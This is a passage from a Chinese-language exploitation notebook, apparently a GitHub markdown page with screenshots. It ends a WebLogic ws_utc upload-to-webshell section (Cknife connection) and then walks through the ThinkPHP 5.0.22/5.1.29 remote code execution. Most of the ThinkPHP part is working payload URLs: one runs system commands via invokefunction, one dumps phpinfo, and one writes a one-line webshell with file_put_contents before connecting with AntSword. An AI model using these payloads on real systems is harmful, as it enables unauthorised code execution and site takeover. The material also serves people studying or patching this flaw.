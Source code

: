 ![image-20200903170433224](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903170433224.png)

访问页面  http://ipconfig:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]

![image-20200903171052389](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903171052389.png)

Cknife连接 

![image-20200903171301957](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903171301957.png)



### ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

##### 漏洞简介及影响范围

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

2018年12月10日中午，thinkphp官方公众号发布了一个更新通知，包含了一个`5.x`系列所有版本存在被getshell的高风险漏洞。

##### 利用过程

环境搭建

![image-20200904100308339](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904100308339.png)

执行poc   

```
index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=command
```

![image-20200904100222867](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904100222867.png)

获取php信息

```
index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

![image-20200904100613329](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904100613329.png)

写入文件  直接写入一句话 

POC /index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=加你要写入的文件内容url编码 

![image-20200904102359481](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904102359481.png)

![image-20200904102434007](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904102434007.png)

蚁剑连接

![image-20200904102618843](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904102618843.png)
